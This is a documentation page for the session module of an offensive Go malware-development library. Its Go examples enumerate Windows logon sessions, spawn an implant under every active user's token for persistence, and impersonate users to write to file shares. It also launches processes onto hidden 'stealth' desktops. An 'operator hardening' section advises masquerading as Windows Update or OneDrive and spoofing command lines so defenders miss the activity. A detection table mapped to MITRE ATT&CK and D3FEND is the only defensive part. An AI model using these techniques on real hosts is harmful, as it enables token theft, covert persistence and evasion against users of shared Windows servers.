

# Session enumeration & cross-session execution

[← process index](README.md) · [docs/index](../../index.md)

## TL;DR

Enumerate Windows logon sessions via `WTSEnumerateSessions`,
spawn processes under another user's token with proper
station/desktop handles, and impersonate other users on a
locked OS thread. Used to plant per-user persistence across
multi-user hosts (Citrix / RDS / terminal server) and to run
short callbacks under alternate credentials without spawning
a full process. Windows-only.

## Primer

A multi-user Windows host runs a separate logon session per
interactive user, each with its own desktop, station, and
token. Implants planted in one session can't influence
another by default — process creation in session 0 doesn't
appear on the user's desktop, and a kerberos ticket cached in
user A's session is invisible to user B.

`process/session` bridges those gaps:

- `List` / `Active` enumerate sessions via WTS APIs. `Active`
  filters to currently-logged-on interactive sessions — the
  ones that matter operationally.
- `CreateProcessOnActiveSessions` spawns a process under
  another user's token in *their* desktop — useful for
  per-user persistence on a host that won't reboot soon.
- `ImpersonateThreadOnActiveSession` runs a callback on a
  locked OS thread under alternate credentials, then reverts.
  Useful for filesystem / network operations that need the
  user's identity but not a full process.

The package handles the Win32 plumbing: token duplication,
environment-block construction (`CreateEnvironmentBlock`),
profile loading (`LoadUserProfile`), station + desktop
attachment (`winsta0\default`).

## How It Works



## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/process/session`](https://pkg.go.dev/github.com/oioio-space/maldev/process/session) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple — list active sessions

```go
import "github.com/oioio-space/maldev/process/session"

infos, _ := session.Active()
for _, i := range infos {
    fmt.Printf("session %d: %s\\%s (%v)\n",
        i.SessionID, i.Domain, i.Username, i.State)
}
```

### Composed — per-user persistence on RDS

Spawn the implant under each active user's token so each user
sees the persistence in their session.

```go
import (
    "github.com/oioio-space/maldev/process/session"
    "github.com/oioio-space/maldev/win/token"
)

infos, _ := session.Active()
for _, i := range infos {
    tok, err := token.WTSQueryUserToken(i.SessionID)
    if err != nil {
        continue
    }
    _ = session.CreateProcessOnActiveSessions(tok,
        `C:\Users\Public\winupdate.exe`,
        []string{"--silent"},
    )
}
```

### Advanced — short impersonation for SMB write

Mount a per-user workflow under a target user's identity
without spawning a separate process.

```go
import (
    "os"

    "github.com/oioio-space/maldev/process/session"
    "github.com/oioio-space/maldev/win/token"
)

tok, _ := token.WTSQueryUserToken(targetSessionID)
_ = session.ImpersonateThreadOnActiveSession(tok, func() error {
    // Inside this callback, the OS thread runs as the user.
    // Network / file ops use the user's credentials.
    f, err := os.Create(`\\fileshare\\users\\target\\report.docx`)
    if err != nil {
        return err
    }
    return f.Close()
})
```

### Advanced — alternate desktop / station

`CreateProcessOnActiveSessionsWith` opens the door to redirecting
the spawned process onto a non-default desktop. Two operator
scenarios:

```go
import (
    "github.com/oioio-space/maldev/process/session"
    "github.com/oioio-space/maldev/win/token"
)

tok, _ := token.WTSQueryUserToken(sessionID)

// 1) Spawn onto the SYSTEM service station (when running as SYSTEM
//    and you want the new process to live alongside services
//    instead of jumping into the user's interactive desktop).
_ = session.CreateProcessOnActiveSessionsWith(tok,
    `C:\Windows\System32\cmd.exe`,
    nil,
    session.Options{Desktop: `Service-0x0-3e7$\Default`},
)

// 2) Spawn onto a hidden desktop you set up upstream via
//    CreateDesktopW so the UI is invisible to the user even if the
//    binary creates windows.
_ = session.CreateProcessOnActiveSessionsWith(tok,
    `C:\Users\Public\impl.exe`,
    nil,
    session.Options{Desktop: `Winsta0\maldev-stealth`},
)
```

See [`ExampleList`](../../../process/session/session_example_test.go)
+ [`ExampleCreateProcessOnActiveSessions`](../../../process/session/session_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Security Event 4624 (logon) with type 9 (NewCredentials) | Cross-session process creation + impersonation |
| Security Event 4648 (explicit credentials logon) | Token-based process creation |
| Process tree: svchost spawning under a user that doesn't own svchost | Lineage anomaly — Defender / MDE rules |
| `WTSEnumerateSessions` from non-Microsoft processes | Rare; some EDRs flag |
| Multiple sessions seeing the same implant binary path simultaneously | Per-user persistence pattern |

**D3FEND counters:**

- [D3-USA](https://d3fend.mitre.org/technique/d3f:UserSessionAnalysis/)
  — session creation event correlation.
- [D3-PSA](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis/)
  — cross-session process lineage.

**Hardening for the operator:**

- Use a binary path consistent with the cloned identity
  (`%LOCALAPPDATA%\Microsoft\OneDrive\…` for OneDrive-looking
  persistence).
- For RDS / Citrix targets, prefer `ImpersonateThreadOnActiveSession`
  for one-shot ops over `CreateProcessOnActiveSessions` —
  no new process to log.
- Pair with [`process/tamper/fakecmd`](fakecmd.md) so the
  spawned child's PEB CommandLine matches a legitimate
  per-user task.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1134.002](https://attack.mitre.org/techniques/T1134/002/) | Access Token Manipulation: Create Process with Token | full | D3-PSA |
| [T1134.001](https://attack.mitre.org/techniques/T1134/001/) | Access Token Manipulation: Token Impersonation/Theft | full — `ImpersonateThreadOnActiveSession` | D3-USA |

## Limitations

- **Windows-only.** Linux stub returns errors on every entry
  point.
- **Token requirement.** `WTSQueryUserToken` needs SYSTEM
  context; without it, the operator can only operate in their
  own session.
- **Profile loading is heavy.** `LoadUserProfile` mounts the
  user's hive; on hosts where the user is rarely active this
  can take seconds.
- **Desktop / station defaults to inherit from the caller.**
  `CreateProcessOnActiveSessions` (legacy entry point) leaves
  `STARTUPINFOW.lpDesktop` NULL, which inherits the caller's
  station+desktop — typically `Winsta0\Default` for an interactive
  logon. Use `CreateProcessOnActiveSessionsWith` +
  `Options.Desktop` to override (operator-controlled hidden
  desktops, SYSTEM service stations, etc.). Pre-existing
  Winlogon-owned desktops (Secure Desktop, Lock Screen) still
  reject CreateProcessAsUser by ACL — that boundary stays.
- **No reverse path.** Once impersonating, this package's
  callback model auto-reverts; long-running impersonation
  requires manual `RevertToSelf` discipline elsewhere.

## See also

- [`win/token`](../syscalls/) — token primitives feeding this
  package.
- [`win/impersonate`](../syscalls/) — sibling impersonation
  helpers.
- [`process/enum`](enum.md) — sibling cross-platform process
  walker.
- [`persistence/service`](../persistence/service.md) —
  alternative SYSTEM-scope persistence that doesn't require
  per-user tokens.
- [Operator path](../../by-role/operator.md).
- [Detection eng path](../../by-role/detection-eng.md).
